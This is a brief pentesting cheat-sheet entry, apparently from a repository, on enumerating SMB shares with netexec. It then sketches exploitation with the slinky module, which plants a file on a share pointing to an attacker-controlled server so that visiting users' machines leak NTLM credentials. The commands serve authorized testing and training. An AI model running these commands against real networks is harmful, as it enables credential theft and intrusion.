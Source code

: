 # SMB shares Enumeration

## Commands:

 - netexec smb IP -u USER -p PASSWORD --shares

# TO EXPLOIT IT, GO TO THE EXPLOIT SECTION AFTER THIS

## Exploitation synopsis:

 - netexec smb IP -u USER -p PASSWORD -M slinky -o NAME=FILENAME SERVER=IP

 - drop .url file

### Go to Coerce SMB 
